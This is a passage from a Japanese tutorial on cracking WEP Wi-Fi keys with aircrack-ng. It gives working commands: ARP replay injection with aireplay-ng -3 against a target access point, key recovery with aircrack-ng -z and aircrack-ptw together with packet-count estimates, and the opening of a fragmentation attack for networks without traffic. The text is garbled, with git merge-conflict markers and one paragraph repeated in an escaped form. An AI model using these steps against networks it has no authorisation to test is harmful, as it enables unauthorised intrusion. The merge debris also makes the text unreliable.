 　あとは解読を残すのみなので、もう勝ったようなものです。
　キャプキャと同時に解読したい人は「aircrack-ng -z <キャプチャファイル名>」
で、同時に解析できないけど少ないパケットで解読したい人はパケットが集まる
のを待ってから「aircrack-ptw <キャプチャファイル名>」でスタートすればあと
は放置でオッケーです。環境によって微妙に変わりますが、WEP128bitはaircrack
-ngだと800kパケット、aircrack-ptwなら80kパケット集まればほぼ解読可能なハ
ズです。シエスタでもしながら待っていてください。 

-----
# aircrack-ng -z /tmp/wep-01.cap
以下略

# aircrack-ptw /tmp/wep-01.cap
以下略
-----
=======
ayをしますので、「aireplay\-ng \-3 \-b <ターゲットAPのBSSID> \-h <使用するNI
CのMACアドレス> <使用するNIC>」と入力してください。実行後、airodump\-ngの
\#Dataがとりつかれた様にどんどん増えていくのがわかると思います。

\-\-\-\-\-
\# aireplay\-ng \-3 \-b 00:11:22:33:44:55 \-h ZZ:ZZ:ZZ:ZZ:ZZ:ZZ ath1
Saving ARP requests in replay_arp\-0123\-456789.cap
You must also start airodump to capture replies.
Read 51 packets (got 0 ARP requests), sent 0 packets...
\-\-\-\-\-

　あとは解読を残すのみなので、もう勝ったようなものです。
　キャプキャと同時に解読したい人は「aircrack\-ng \-z <キャプチャファイル名>」
で、同時に解析できないけど少ないパケットで解読したい人はパケットが集まる
のを待ってから「aircrack\-ptw <キャプチャファイル名>」でスタートすればあと
は放置でオッケーです。環境によって微妙に変わりますが、WEP128bitはaircrack
\-ngだと800kパケット、aircrack\-ptwなら80kパケット集まればほぼ解読可能なハ
ズです。シエスタでもしながら待っていてください。 

\-\-\-\-\-
\# aircrack\-ng \-z /tmp/wep\-01.cap
以下略

\# aircrack\-ptw /tmp/wep\-01.cap
以下略
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　以上でキーが手に入るハズです。お疲れ様でした。

　続いてアクセスがない場合の方法です。
　今度は前者と違い、ARPリクエストが漂っていてくれません。よって自分で発生
させる必要がありますので、ビーコンからパケットを分析するFragmentationをし
<<<<<<< HEAD
ます。「aireplay-ng -5 -b <ターゲットAPのBSSID> -h <使用するNICのMACアド
レス> <使用するNIC>」と入力してください。
